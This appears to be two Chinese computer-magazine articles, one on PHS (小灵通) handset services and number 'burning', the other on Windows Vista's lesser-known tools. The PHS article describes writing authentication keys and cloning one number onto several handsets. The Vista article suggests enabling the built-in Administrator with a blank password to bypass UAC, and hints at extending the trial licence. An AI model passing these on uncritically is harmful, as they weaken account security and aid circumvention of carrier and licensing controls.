小灵通手机具有固定程控电话的全部附加功能，如来电显示、呼叫等待、呼叫转移、温线服务和三方通话等等。但很多小灵通手机没有像GSM手机那样，内置供用户直接调用这些功能的菜单，而是需要用户自己查询相关的设置指令来对服务进行设置和取消。

- 呼叫转移：小灵通呼叫转移分为三种。
- 一是无条件呼叫转移，即在任何条件下将所有对该小灵通的呼叫都进行转移，设置指令为在小灵通手机上拨*57*转移号码#，这样便登记激活了无条件呼叫转移业务，拨#57#可取消该业务。
- 二是遇忙转移，即在用户通话过程中，若再有电话呼入，将转移至指定电话。设置指令为拨*40*转移号码#，登记激活；拨#40#可取消。
- 三是无应答转移，也是小灵通最有实用价值的呼叫转移方式。设定无应答呼叫转移功能后，若有电话打入，在小灵通正常待机时可正常接听，如出现网络信号弱、关机、久叫不应等情况，该来电信息会自动转移到你指定的其他电话上，可在很大程度上弥补小灵通信号不佳的弱点。设置指令为拨*41*转移号码#，登记激活；拨#41#可取消“无应答转移”业务。最后提醒大家，小灵通呼叫转移没有月使用费，通话费用为0.06元/分钟左右。

呼叫等待：开启这一功能后，在小灵通通话时，若又有电话呼入你将可以听到特殊的提示音，并可选择接听和在两个电话间进行切换。在小灵通手机上拨*58#登记激活呼叫等待业务；拨#58#可取消该业务，注意该业务的优先级低于遇忙转移，因此要使用该功能需确保没有设置遇忙转移。使用小灵通呼叫等待功能没有月使用费，也不会产生其他费用。对于业务繁忙的商务人士来说，该功能是有实用价值的。

呼出限制：首先用户必须拨打电信服务电话或到营业前台办理呼叫限制登记业务手续，然后在小灵通手机上拨*54*KSSSS#(即锁密码)，登记激活呼出限制业务；拨#54*KSSSS#(即开密码)取消该业务。注释：K为限制级别，K=1为全锁；K=2为锁长途；K=3为只锁国际长途。SSSS为四位数密码。呼出限制功能通常需要缴纳月使用费。

### (2)短信应用

小灵通在诞生之初其实就具备短信收发功能，但长期只能在网内收发。2005年初，小灵通和中国移动、中国联通手机全面实现短信互通，全国手机用户与小灵通用户可以不分地区随意发送短信息。小灵通短信开始具备了较大实用价值。

本地小灵通发短信给外地小灵通用户：输入区号+对方号码。小灵通向手机发送短信息的方法为：给本地移动手机发短信直接输入手机号码；给异地移动手机发短信输入0+手机号码。手机给小灵通发送短信的方法为：输入106+对方区号+对方小灵通号码。

小灵通用户之间发送短信息的资费为0.08元/条；小灵通向手机发送短信资费为0.1元/条；手机（除神州行）向小灵通发送短信资费为0.15元/条；神州行手机向小灵通发送短信资费为0.20元/条。

由于许多早期小灵通用户使用的终端没有短信功能，我们可以使用短信代发业务。只要拨打11868短信服务热线，就有服务小姐将你要发送的话以短信的形式发送到指定的小灵通上（类似以前的中文传呼）。如果希望发送到GSM手机上，需拨打1601600。此外，小灵通还能通过网上平台等方式发送短信。使用小灵通短信功能也可点播和订阅新闻、气象、财经、彩票等多种信息。当然这些服务都是要收费的。

此外部分小灵通间还可发送简单的音画短信。和移动彩信业务类似的“灵通彩信”也开始在一些地区开通，但发展还不成熟。

### (3)七彩铃音

小灵通的“七彩铃音”业务类似GSM手机的“彩铃”，小灵通用户可以根据自己喜好，设置拨打自己小灵通的朋友所听到的回铃音。要定制“七彩铃音”，需要用小灵通本机拨打接入号118100进行申请，听语音提示可以分别选择业务类型。注册成功后，可以通过拨打118100或者是登录“七彩铃音”网站www.7rings.com.cn进行铃声的修改和管理。通过“七彩铃音”网站，小灵通用户可进行个人铃音管理，包括：铃声分组和更换；客户可通过七彩铃音网站对号码进行分组，每个分组可设置不同的铃声，这一功能还是很实用的。还有一个简单办法：直接编辑歌手名或歌曲名，发送到94223308，就可进行七彩铃音的修改。

另外现在部分地区还开通了自录“七彩铃音”的服务，拨通118100，按相关提示开始录音，操作完后，就可以听自录铃音了。如果你觉得够好，可以按1号键确定；如果觉得不好要重录，直接按2号键，取消按3号键。经过审核后就可以使用了。

### (4)其他新业务

灵通伴侣：当中国电信网内用户拨打GSM手机时，灵通伴侣系统对登记了灵通伴侣功能用户的手机和小灵通同时发起呼叫，使其同时振铃，由你自主选择接听方式，当你接听任意一部电话时，另外一部不会继续振铃。可用小灵通本机拨打81818181进行伴侣注册，同时伴侣手机进行确认。该功能有月使用费，感觉不如无应答呼叫转移实用。

短信呼：当在服务区域外或“小灵通”关机期间，打入你“小灵通”的主叫电话号码和时间信息会在你重新进入服务区或“小灵通”开机后，以“短消息”的形式发送给你，做到“信息不漏”。在小灵通开通初期这一功能是免费提供的，其实是为了弥补小灵通信号不佳的弱点，现在通常要收费了。

省钱几法：很多地方小灵通可以与住宅固定电话捆绑组成家庭亲情网，网内无限时免费通话。另外小灵通可以直接拨打17909等IP电话，打长途时可以节省很多费用。另外小灵通也可以用201卡进行拨号，由于201电话卡大幅打折出售，这又为节省手机话费开辟了一条新途径。比如在套餐内赠送市话时间，打得差不多了就用201卡打。有些地区201卡可以绑定在小灵通上，使用起来也很方便。再绑定一个IP卡，这样就省钱到家了。

灵通无绳：所谓灵通无绳电话，顾名思义，就是小灵通手机具有无绳电话功能。只需要在室内安放一部类似普通电话机的灵通无绳座机，与固定电话线路连接，即可使用这项业务。利用这一功能，在室内，小灵通会自动变成固定电话的无绳子机，在室外，无绳电话又自动变成小灵通。用户在家中可以为每部小灵通手机自动分配一个内部分机号码，在家作为灵通无绳电话的子机使用，通过固定线路实现通话，通话质量更清晰稳定。只要配备了本地的小灵通卡，该子机还同时拥有独立的小灵通号码，在户外，则是一部小灵通手机，自动转换，方便实用。目前UT斯达康的小灵通基本上都支持灵通无绳功能。

## 3.烧号升级

和GSM手机相比，小灵通有一个比较有特色的技术，就是可以利用电脑和特定数据线连接小灵通终端后自己烧号。尽管现在使用PIM卡的“机卡分离”小灵通占据了市场主流，但能烧号的产品也很多。其实自己烧号是很有乐趣的事，比如你可以玩玩双机同号，将一个小灵通号码烧到两个甚至多个小灵通终端上。要注意如果多个小灵通上同一个号，并不像固定电话分机那样都能同时使用，每次只有最后一个开机的终端才能正常使用。

烧号前用户需了解一些基本参数。有手机识别码（PS-ID）即手机生产编号、控制信道码（CCH）、运营商识别码（Operator ID）、手机内码（Psnumber）、国家代码（Country Code）、鉴权码（Authenticationkey）（即手机使用权限的密码，这是最重要的参数）等。各种机型写码的方法都不尽相同，下面为大家介绍几款代表机型的具体写码方法。

- 普天通用写码软件操作步骤：
- 点击注册表安装信息注册“普天Pt1668写码软件注册.reg”。
- 运行“普天Pt1668写码软件.exe”程序。
- 填写相关信息，包括COM口选择、机型、鉴权字节（朗讯为16位、UT和中兴为10位）。
- 点击“连接小灵通”读取或写入相关小灵通信息（图20）。

朗讯PS900、中兴V91、京瓷AH-K3001。关闭小灵通机，然后同时按*键和电源键开机，出现“SOWRITE”英文进入读写码状态。运行“PS900-AH-K3001-V91中文读写码.exe”程序。填写COM口等相关信息即可。

中兴：安装写码软件后，文件会自动在桌面生成图标。双击图标，点击左上角的“文件”选择“添加手机新型号类型”，此时电脑会跳出“添加DLL导入”，点击搜索旁的下拉箭头，按照显示的路径找到要添加的DLL文件（例如：268A.DLL是十位鉴权，268J.DLL是十六位鉴权）。写码时选择与手机相对应的文件。

另外通过电脑连接小灵通后，不仅可以进行烧号操作，还可以对小灵通终端进行密码清除等操作。其实只要有相关软件和配套数据线，你自己就可以开一个小灵通维修店了。

很多小灵通也支持软件升级，比如我们可以将UT660升级到660Q。升级前请充足电并备份好电话簿、铃声、图片、短信。然后就可以使用专门的软件进行升级了。升级后，主要增加了“灵通无绳”的功能。

## 4.其他应用

###### （1）双机通话

大家知道有些GSM手机具有“PPT”双机对讲功能，但这一功能需通过网络实现。有几款小灵通终端可以在没有网络的情况下，直接像普通对讲机一样通话，既节省了话费，又为紧急情况下的通信提供了一种方法。比如UTS 718-U+和英华达0K818。下面以笔者使用的UTS718-U+为例谈谈具体方法：

要实现双机对讲功能，需进入“社群模式”，先设定主机，按F、61——按*——利用数字键输入社群号码——输入社群密码——按#，再设定副机，按F、61——按#——利用数字键输入社群号码——输入副机编号——按#——输入社群密码——按#。接着我们要将待机模式修改为社群/公众模式。

然后，按CLR——利用数字键，输入对方的社群编号，即可拨通对方的U718，对方接听后就能直接通话了。另外利用社群模式还能传送通信录。

###### （2）定位服务

和GSM手机可通过基站进行定位一样，小灵通同样可以通过基站进行定位。由于小灵通基站密度比GSM手机大很多，因此通过基站定位的精密度也要比GSM手机高不少。小灵通定位服务是在日本很早就普及了的应用。主要包括定位查询和应急定位两种业务。

定位查询服务主要根据用户当前的地理信息通过手机终端为用户在附近区域购物、就餐和娱乐提供便捷、快速、准确的向导服务。

应急定位业务：可在小灵通网络覆盖的范围内对小灵通用户提供准确的区域定位。可以实现主动定位、定位查询和定位追踪等功能。可提供110报警和120急救定位业务。通过小灵通基站间的精确定点定位，能够将定位精度控制在100米范围内。这样携带了小灵通的儿童及老年人的行踪将可以随时掌握并采取相应急救措施。

###### （3）移动传真

传真机作为一部调制解调器，可把数字化的图像信号调制为音频，并通过通信网络进行传输。我们可以用小灵通网络作为无线传真的载体，收发无线传真。就像使用普通传真机那样简单。PAS数据线+小灵通（特定型号）+普通传真机=移动无线传真。几乎所有带有耳麦插口的小灵通配上小灵通传真线后，都可以实现无线传真功能。

小灵通上网线一头接小灵通另一头接传真机的电话线插孔。按小灵通提机键，再按传真机免提可听到拨号音。当传真来时小灵通接起，传真机使用免提可听见对方说话，给予对方传真信号即可。如发传真，将资料放入传真机，用小灵通拨打对方号码，打通后叫对方给予传真信号，传真机使用免提可听见信号音，按传真开始。

### Windows Vista中的“秘密”武器

◆文/春水东流

作为一个划时代的操作系统，Windows Vista之中有着太多的“秘密”，除去Windows Aero、Windows DreamScene、BitLocker等我们早已耳熟能详的组件之外，其实它还有很多好用的“秘密武器”。

#### 一、截图工具

从Build 5342版本开始，微软的开发人员就在系统中提供了一个名为Spining Tool的新组件，可以完成普通抓图键所无法完成的任务，而且还增加了相应的编辑功能，可以说是增强版的抓图工具。

#### 1.截图工具的使用

在“新建”菜单下可以选择矩形截图、窗口截图等不同的截图类型，也可以直接单击“新建”按钮，默认的当然是以任意格式进行截图，此时光标会变成剪刀状，接下来围绕要捕捉的区域画线，想怎么截就怎么画，画完线后，所截取的对象就会自动显示在“截图工具”的窗口中了。

可以将其另存为JPEG格式的图片，当然也可以保存为PNG、MHT、GIF等格式。

#### 2.截图工具的设置

如果你不喜欢截图工具窗口下的提示文字“从菜单中选择一个截图类型，或单击新建按钮”，那么可以单击工具栏上的“选项”按钮，此时会打开“截图工具选项”对话框，在这里勾选“隐藏提示文字”复选框，以后就不会再看到这句鸡肋般的提示文字了。 这里还有一个“显示快速启动工具栏中的图标”的选项，勾选后我们就可以在快速启动栏看到这个剪刀状的截图工具图标，使用时会更方便。

#### 二、Tablet PC

Windows Vista内置了Tablet PC的组件，我们可以在“所有程序→附件”下发现它的身影，这里提供了Tablet PC输入面板、Windows日记本、粘滞便笺等三个组件。

#### 1.Tablet PC概述

Tablet PC是一种移动PC，具有可通过Tablet笔在其上写入或进入交互的屏幕，某些Tablet PC还可以通过手指与屏幕进行交互。早在Windows XP时代，微软就专门发布了Windows XP Tablet PC的版本，旗舰版本的Windows Vista已经内置这一功能。

#### 2.输入面板

我们可以在不使用标准键盘的情况下使用Tablet PC输入面板输入文本，可以使用书写板或字符板将手写内容转换为键入的文本，或者使用屏幕键盘输入字符。

除了可以从“开始”菜单的“所有程序→附件→Tablet PC”程序组下启动输入面板之外，也可以右击任务栏空白处，从右键菜单中选择“工具栏→Tablet PC输入面板”，执行后会在输入法指示器附近显示一支笔形状的图标，单击即可启动Tablet PC输入面板。默认情况下，输入面板选项卡将显示在屏幕的左边缘，使用时单击此选项卡，输入面板就会从屏幕边缘显示出来(见图2)，在关闭输入面板时将收回屏幕边缘。

Tablet PC输入面板提供了书写板、字符板、屏幕键盘三种选择，单击左上角的图标即可切换。

- 书写板：可以连续书写，就好像在有横线的纸上书写一样。
- 字符板：可以将手写内容转换为键入的文本，一次转换一个字母、数字或符号。
- 屏幕键盘：与标准键盘类似。

现在，我们就可以在这个输入面板中使用手写板或鼠标进行输入，包括英语单词、数字、字母、中文字符等都可以被识别出来，写完后单击右下角的“插入”按钮即可插入相关的文本编辑器。很显然，随着书写时间的增加，Tablet PC的识别率也会越来越高。

这里要提醒的是，直接单击输入面板右下角的关闭按钮，只能将输入面板自动返回屏幕边缘，真正退出时需要从“工具”菜单下选择“退出”。

#### 3.Windows日记本

Windows日记本用于创建手写注释,我们可以使用Tablet笔在Windows日记本中书写或绘图，初次使用时，系统会提示是否安装日记本便笺书写程序打印驱动程序，这样可以捕获文档的电子图标，以进行导航、打印、批注或共享，建议选择“安装”。

Windows日记本的主界面如图3所示，在手写的日记本完成之后，我们可以将墨迹转换为在其他程序或在便笺中可以使用的键入文本，这样可以将此文粘贴到其他程序中，你也可以将原始墨迹替换为文本框中已转换的文本，具体步骤如下：



在“笔”工具栏中，点击“选择工具”，然后框选需要转换的手写内容，点击“操作”菜单，在这里选择“将手写转换成文本”。

接下来会弹出“文字更正”对话框，这里的“样”未能被正确识别，因此需要在“替换选项”框中查找正确的字。如果找到正确的字，请点击该字，然后点击“更改”按钮，否则的话就必须手工输入了。

点击“完成”按钮，即可将已处理完成的墨迹复制到剪贴板中，接下来就可以将剪贴板中的内容粘贴到目标程序，例如记事本、Word等字处理程序。

## 4.粘滞便笺

粘滞便笺的作用其实就是相当于我们平时使用的记事贴，主界面如图4所示，有什么重要的事情，随手“写”进去或者“录”进行就是了，直到删除之前，所有便笺都自动保存并保留在粘滞便笺的堆叠中。



书面便笺：使用手写输入工具或鼠标，直接书写即可，如果发现错误可以直接删除便笺。

语音便笺：粘滞便笺的语音功能是另一种保留信息的方式，可以录制新的语音便笺，或者向书面便笺添加语音，使用时单击左下角红色的“录音”按钮，或者按下“Ctrl+R”组合键，然后对着已连接的麦克风讲话，录制时标题栏中会显示日期和时间，录制完成后，单击“停止”按钮即可，注意每条语音便笺最多可以录制30秒。

如果需要粘滞便笺在桌面上始终可见，请点击“工具”菜单，指向“选项”，然后点击“总在最前面”。

#### 三、命令提示符

很多时候，通过命令行进行操作，可能比起图形界面来得更为方便，这也正是高手们为什么喜欢在命令行下操作的最大原因吧。

### 1.以管理员身份进入命令提示符环境

- 1. 进入命令提示符环境的方法很简单，单击开始按钮，激活“开始”菜单的“开始搜索”框，在这里手工输入“cmd”，按下回车键后即可进入命令提示符环境，或者也可以从“所有程序→附件”中选择“命令提示符”。
- 2. 不过，很多操作都需要获得管理员权限才能进行，如果你希望以管理员的身份进入命令提示符环境，可以右击“所有程序→附件→命令提示符”，从快捷菜单中选择“以管理员身份运行”。

### 2.Tab键在命令行环境下的妙用

在Vista系统下，Tab键可以与“Win”键组合提供Windows Flip 3D效果，其实可能很少有朋友会注意到，这个键还可以在命令提示符环境下实现自动完成功能。具体来说，在命令提示符环境中，按下Tab键后系统会自动补完命令或文件名，这在需要操作某些长文件名时将相当实用。

例如我们需要进入系统根目录下的Program Files文件夹，这当然是使用“cd”命令，然后再在后面跟上完整的文件夹名称。其实，我们只需要输入“cd p”，如图5所示。

不按下回车键(Enter)，而是按下Tab键，此时系统会自动搜索当前路径下，所有以“P”打头的文件或文件夹，并将该目录名自动填充到“cd p”中，此时可以看到这里自动为“Program Files”给出了双引号以示区别。



如果Tab键自动给出的并不是你所希望的“CD Program Files”目录，那就说明当前路径还存在其他以“P”打头的目录，此时你可以持续按下Tab键进行选择，或者在输入命令时尽可能多的给出限制字符，不过显然还是继续按下Tab键更方便一些。

当然，Tab键的自动完成功能并不仅仅只是针对“CD”命令，事实上这个功能适合于命令提示符环境下的大多数命令，例如“EDIT”、“TYPE”等，感兴趣的朋友不妨一试。

补充：上面提到的Tab键自动完成功能，其实在Windows XP系统下也可以正常使用，不过假如你需要在Windows 2000系统下使用，那么需要进入注册表编辑器，找到“HKEY_LOCAL_MACHINE\SOFTWARE \Microsoft \Command Processor”子键，在这里新建一个名为“CompletionChar”的DWord键，并赋值为“00000009”，刷新后即可生效。

### 3.启用超级管理员账户

如果你已经用上了Windows Vista，那么对UAC应该不会陌生，这是从5270版本开始引入的用户账户控制功能(UAC,User Account Control)，即使你是管理员级别的用户，在运行高特权的管理任务时(例如安装软件和驱动程序、运行注册表和系统配置程序)，都会受到“降级”的特殊待遇，这主要是为了增强系统的安全性。

对于普通用户而言，UAC对他们的日常操作带来了很大的不便，毕竟谁也不希望每项操作都去点击那个“继续”按钮，毕竟是太麻烦了些。其实，我们可以通过下面的方法快速升级到最高等级的超级管理员账户：

依次进入“开始”菜单下的“所有程序→附件”，找到其中的“命令提示符”，右击选择“以管理员身份运行”，进入命令提示符环境后，在这里手工输入“net user Administrator /Active:yes”这条命令。

注销或者重新启动系统，此时可以在登录界面中选择“Administrator”进行登录，默认密码为空。如果你觉得“Administrator”这个名称太难看的话，可以进入控制面板重新命名。

### 4.新增加的命令行工具

对于Windows Vista来说，除了深深吸引我们的Windows Aero、DreamScene、BitLocker、UAC等重磅武器之外，其实新增加的一些特色命令行工具也是很有意思的，这些命令行工具不仅可以实现图形界面的功能，甚至在某些方面更胜一筹，这里简单介绍几个命令行工具。

BcdEdit：启动配置数据存储编辑器，包含了启动配置参数并控制操作系统启动的方式，这些参数以前存储在Boot.ini文件中，我们可以通过BcdEdit在启动配置数据存储中添加、删除、编辑和附加项。

Slmgr.vbs：Windows软件授权管理工具，最高允许执行“slmgr.vbs -rearm”重置计算机的授权状态达3次，再通过对注册表的修改，可以延长Windows Vista的试用时间一年。

Powercfg：控制系统上的电源设置，例如“powercfg –h off”可以快速禁用休眠并自动删除休眠文件hiberfil.sys，再次执行“powercfg –h on”可以重新启用；“powercfg -a”可以检查当前计算机系统对休眠的支持情况。

net user administrator /activate:yes ：默认设置下，即使是所创建的管理员账号，也仍然无法获得最高权限，也就是说受到某种降级的“管理员”，只有以管理员身份进入命令提示符环境，手工执行这条命令，注销并重新登录后才能启用Windows Vista内置的超级管理员账号。

VSSadmin：卷影复制服务管理命令行工具，可以列出已注册的卷影副本提供程序、列出现有卷影副本、列出卷影副本存储关联，当然最实用的还是可以让我们重新调整卷影副本存储关联的大小，例如“vssadmin Resize ShadowStorage /For=E: /On=E: /MaxSize=1000MB”这条命令，“/For=”和“/On=”后面的字母都是需要调整的磁盘盘符，两者当然必须相同，“MaxSizeSpec”的值必须大于等于300MB，如果没有提供相应的后缀，那么默认的单位是字节，执行此条命令后很快就会调整成功。

RoboCopy：增强的复制工具。下文详细介绍。

Ctrl+Shift+Enter：从严格意义上来说，这个命令并不能称之为命令行工具，但使用起来的确是非常实用和方便，我们可以通过这个组合键让应用程序在管理员权限下直接运行，而不需要右击选择“以管理员身份运行”，这在很多时候是相当有用的。

### 5.强大的RoboCopy命令

相信朋友们对于Copy和Xcopy这两条DOS命令应该不会太陌生，通过它们的搭配，我们可以完成一些比较复杂的复制任务。不过，如果你已经用上了Windows Vista，那么除了直接拖曳复制或“Ctrl+C”和“Ctrl+V”这些方法之外，其实Vista下的复制和移动操作已经非常智能化，RoboCopy这条命令的功能非常强大。

###### (1) RoboCopy的前世

其实，RoboCopy并非微软心血来潮之作，早在Windows NT 4.0资源工具包和Windows 2000/2003资源工具包中，我们就可以发现RoboCopy的身影，这个程序能够帮助用户完成文件的复制、移动、备份任务，可以实现各种简单和复杂的文件管理任务。

使用之前，我们首先需要访问微软的下载站点：http://www.microsoft.com/downloads/，从这里可以下载到2003资源工具包，将其中的robocopy.exe从安装文件夹中复制出来，然后才可以使用，其路径是C:\Program Files\Windows Resource Kits\Tools。

###### (2) RoboCopy的今生

在Windows Vista中就简单多了，我们不再需要下载资源工具包，按下“Win+R”组合键打开运行对话框，在这里手工输入“cmd”，执行后进入命令提示符环境，直接输入“robocopy”即可使用，不过它的控制参数非常之多，其命令格式如下：ROBOCOPY source destination [file [file]...] [options]

不过，相对于命令格式来说，RoboCopy可以使用的控制参数几乎是令人眼花缭乱，如图6所示。具体来说可以分为几大类，由于篇幅的关系，下面只能简单介绍。

###### (3) 复制选项

- **/S**: 表示复制子目录，但不复制空的子目录
- **/E**: 表示复制子目录，但包括空的子目录
- **/DCOPY:T**: 表示复制目录时间戳
- **/MOV**: 表示移动文件
- **/MON:n**: 表示监视源，发现多于n个更改后再次运行
- **/MOT:m**: 表示监视源，发现更改则在m分钟后再次运行
- **/PURGE**: 表示删除源中不再存在的目标文件和目录
- **/TIMFIX**: 表示修复所有文件的文件时间，包括已跳过的文件
- **/SECFIX**: 表示修复所有文件的文件安全性，即使是已跳过的文件

###### (4) 文件选择选项

- **/A**: 表示仅复制具有存档属性集的文件
- **/M**: 表示仅复制具有存档属性的文件并重置文档属性
- **/XC**: 表示排除已更改的文件
- **/XN**: 表示排除较新的文件
- **/XO**: 表示排除较旧的文件
- **/XX**: 表示排除多余的文件和目录
- **/IS**: 表示包含相同文件
- **/IT**: 表示包含已调整的文件
- **/MAX:n**: 表示排除大于n字节的文件
- **/MIN:n**: 表示排除小于n字节的文件

###### (5) 重试选项

- **/R:n**: 表示失败副本的重试次数，默认为100万
- **/W:n**: 表示两次重试间的等待时间，默认为30秒
- **/REG**: 表示将注册表中的“/R:n”和“/W:n”保存为默认设置
- **/TBD**: 表示等待定义共享名称

###### (6) 日志记录选项

- **/L**: 表示仅列出
- **/X**: 表示报告所有多余的文件而不只是选中的文件
- **/V**: 表示生成详细输出同时显示跳过的文件
- **/TS**: 表示在输出中包含源文件的时间戳
- **/FP**: 表示在输出中包含文件的完整路径名称
- **/BYTES**: 表示以字节打印大小
- **/NP**: 表示不显示已复制的百分比
- **/ETA**: 表示显示复制文件的预期到达时间

###### (7) 作业选项

- **/JOB:作业名称**: 表示从命名的作业文件中提取参数
- **.SAVE:作业名称**: 表示将参数保存到命名的作业文件
- **/NODD**: 表示未指定目标目录
- **/IF**: 表示包含以下文件
- **/QUIF**: 表示处理命令行后退出

###### (8) 在图形化界面下完成复制任务

很显然，RoboCopy的功能虽然超级强大，但由于并没有图形化的操作界面，主要依靠参数调用和设置，因此操作起来并不轻松，我们需要记住众多的参数才能得心应手。为了降低使用的门槛，一些技术爱好者便开发了RoboCopy的图形化前端程序，例如RoboCopy GUI（官方版本，需要从微软网站下载），利用这些图形化工具，我们可以非常方便地完成文件复制、移动等任务，具体操作这里就不多说了，朋友们可以自行尝试。



操作起来委实是太复杂了一些，而且这些参数还很难记忆。其实，微软早就为我们准备了一款图形化的处理工具，下载地址是http://download.microsoft.com/download/f/d/0/fd05def7-68a1-4f71-8546-25c359cc0842/UtilitySpotlight2006_11.exe，文件不大，才1.02MB。双击下载回来的自解压文件，将其释放到一个临时文件夹中，然后双击运行Setup.msi进行安装，接下来就可以在图形化的界面中运行RoboCopy这款超强的复制工具了。



如图7所示，我们需要做的工作非常简单，分别在“Soutce Path”和“Target Path”两个文本框中指定相关的路径，前者是源文件夹，后者是目标文件夹，这个步骤很快就可以完成。切换到“Copy Options”标签页，这里的参数简直令人目不暇接，反正所有可以使用的参数都在这里了。

如果你一时之间搞不清楚这些参数的具体含义，没有什么关系，你可以随时切换到命令提示符环境，输入“robocopy /?”进行查看。“Filters”相当于一个过滤器，事实上也就是前面介绍的“文件选择选项”；“Logging”是“日志记录选项”；“Montioring Options”主要用来监视源，这个标签页中的参数还是“复制选项”中的内容。所有设置完成之后，最后单击“Run”按钮即可开始复制操作。

#### 四、轻松传送

很多朋友可能都准备将现有的Windows XP系统升级至Windows Vista，其实我们不需要苦苦寻找第三方的转移工具，直接利用Windows Vista安装光盘就可以了。利用Windows Vista安装光盘中的“Windows轻松传送”，可以非常轻松和快捷地导出旧系统的文件和设置，这里以Windows XP系统为例进行说明。

进入Windows XP系统，插入Windows Vista安装光盘，单击欢迎屏幕左下角的“另一台计算机传送文件和设置”任务。



此时会自动进入如图8所示的“欢迎使用Windows轻松传送”界面，单击“下一步”按钮继续。从刚才的界面中，我们可以看到“Windows轻松传送”可以传送下面的内容：

- 用户账户：可以保存Windows XP系统下的用户账户、密码、权限、个人头像等内容。
- 文件夹和文件：可以保存Windows XP系统下用户的个人文件，主要是保存在“我的文档”和“桌面”下的内容。
- 程序设置：可以保存Windows XP系统内置程序的设置信息。
- Internet设置和收藏夹：可以保存Windows XP系统下的IE设置和收藏夹内容。
- 电子邮件设置：可以保存Windows XP系统下Office Express邮件客户端工具所设置的账户信息和邮件内容，至于Foxmail等第三方的邮件客户端工具就无能为力了，其实对于Foxmail来说，直接备份文件夹即可。
- 联系人和消息：可以保存Windows XP系统下的联系人信息。

如果此时尚有正在运行的程序，那么“Windows轻松传送”会弹出一个提示框，要求关闭这些程序，你可以选择手工关闭，也可以单击“全部关闭”按钮。

我们可以选择三种不同的方法将文件和设置传送到新的计算机，就实际情况而言，建议选择“使用CD、DVD或其他可移动介质”，毕竟专用的轻松传送电缆是很难找到的。

进入下一步界面后，可以在这里选择其中的一种方式，例如这里选择“CD”，这样可以将一台计算机的文件和设置刻录到光盘上，日后可以在另一台计算机上进行还原。插入一张空白的可写CD-R(CD-RW)或DVD-R(DVD-RW)光盘，这里还可以创建密码。现在，我们需要指定待传送的信息，默认是“所有用户账户、文件和设置”，不过推荐还是选择“高级选项”，这样可以获得更大的可控制性。下一步，我们可以自由选定所需要转移的数据和设置，直接勾选或取消勾选项就可以了，如果需要添加其他的文件或者文件夹，可以单击窗口底部所对应的按钮。完成上述工作之后，单击“下一步”按钮继续。接下来会首先收集相关的文件和设置，然后再将这些数据复制到磁盘或所靠近的其他存储类型，完成所有工作之后单击“关闭”按钮就可以了。当Windows Vista安装完成之后，放入事先准备好的备份光盘，双击导出的备份文件(*.mig)即可开始恢复进程，首先在下拉列表框中选择新计算机上的用户账户名称，这样旧系统的账户信息会全部导入到新的系统中，接下来复查所需要传送的文件和设置选项，确认之后单击“传送”按钮，稍等片刻即可完成，具体操作这里就不多说了。

#### 五、卷影副本

Windows Vista(以下简称为Vista)继承了Windows XP的“系统还原”特性，但功能更为出色，现在它有另外一个响亮而且形象的名字：系统保护。既然启用了“系统保护”，那么它自然要发挥作用，正常情况下系统每天都会自动创建还原点，还有在发生显著的系统事件，例如安装程序或设备驱动程序之前，也会自动创建还原点，当然我们也可以在任何时候进入“系统属性→系统保护”窗口，在这里为选中的磁盘手工创建还原点，只要你的磁盘空间足够大。打开文件和文件夹属性窗口，我们将会在这里发现一个以前系统所没有的新选项卡“以前的版本”，当然这个功能只有在启用“系统保护”之后才有实际的意义。

##### 1. 什么是卷影副本

需要指出的是，“以前的版本”与我们熟悉的“系统还原”有着很大的区别，我们可以使用以前的版本的文件还原被意外修改、删除或损坏的文件，根据文件或文件夹的类型，你可以打开、保存到其他位置，或者还原以前的版本。简单来说，“以前的版本”主要包括以下两种类型：

- ①备份副本：使用备份文件向导备份的文件和文件夹副本。
- ②卷影副本：Windows自动保存为还原点一部分的文件和文件夹的副本，可以是计算机上的文件的副本或者网络计算机上的共享文件的副本。

默认设置下，Vista在安装完成后将只对系统磁盘启用“系统保护”，此时卷影副本将自动保存为“系统属性”中还原点的一部分，如果需要为其他磁盘创建卷影副本，那么需要打开“系统属性→系统保护”对话框，在这里手工创建卷影副本。

在有需要时，我们可以根据实际情况决定是否需要还原到以前的某个版本。如果需要存储还原点，那么必须在每个已打开系统保护的硬盘上至少有300MB的可用空间，系统还原可能会占用每个磁盘15%的空间，如果还原点占满了所有空间，系统还原将删除旧的还原点，为新还原点腾出空间。

### 2.创建卷影副本

需要指出的是，Windows Vista安装完成后将只对系统磁盘启用“系统保护”，此时卷影副本将自动保存为“系统属性”中还原点的一部分。

如果需要为其他磁盘创建卷影副本，那么你需要从“系统属性”对话框切换到“系统保护”选项卡，例如我们需要为“my document (L:)”这个磁盘创建卷影副本，请首先勾选该磁盘，如图9所示，单击右下角的“应用”按钮，注意这一步是关键，否则“创建”按钮将不可用。



选中“my document (L:)”，单击“创建”按钮。此时会弹出一个对话框，在这里简单输入用以识别还原点的描述，至于当前日期和时间系统会自动添加，单击“确定”按钮，确认之后，系统保护会自动创建还原点，很快就可以创建成功。

以后，Windows将自动创建自上次做出的还原点之后修改的文件的卷影副本，通常是每天一次。需要指出的是，卷影副本不能用于保证Windows正常运行的文件和文件夹，这些文件和文件夹包括系统文件夹和系统文件夹中的文件，例如C:\Windows，这需要采取另外的方法，本文不作讨论。

### 3.恢复以前的版本

启用系统保护后，我们可以很轻松地让某个文件或文件夹返回以前的某一个版本，这样即使该文件或文件夹已经被修改而且保存过，你也不用担心，我们可以使用以前版本的文件还原意外修改、删除或损坏的文件，根据文件或文件夹的类型，你可以打开、保存到其他位置，或者还原以前的版本。

这里，我们通过两个实例来进行介绍。

###### 实例一：还原以前版本的文件或文件夹

在还原以前版本的文件或文件夹之前，请打开它以确保是你需要操作的版本，然后右击打开属性窗口，如图10所示，可以看到“还原以前的版本”标签页的“文件版本”列表框中显示了系统自动保存的卷影副本。


选中某个版本，然后单击窗口右下角的“还原”按钮，此时会弹出一个对话框要求确认。确认之后，就可以将文件还原到上一个版本。这里要提醒的是，此项操作将替换计算机上该文件或文件夹的当前版本，而且替换后不可撤消，因此请事先做好备份工作。

上面的操作是对卷影副本进行还原，如果需要还原备份副本，那么操作的步骤是完全相同的，但单击“还原”按钮时，Windows Vista会打开还原文件向导，只要按照向导的提示进行操作就可以了。

###### 实例二：找回被删除或重命名的文件(文件夹)

我们知道，如果意外删除或重命名了某个文件或文件夹，那么我们可以立即按下“Ctrl+Z”组合键进行撤消。但假如你又在这段时间内进行其他的操作，那么这一招就完全无用，其实只要该文件或文件夹所在的磁盘已经启用了“系统保护”，那么你可以很顺利地还原该文件或文件夹的卷影副本，当然前提是必须知道保存该文件或文件夹的位置。

请按照下面的步骤进行操作：

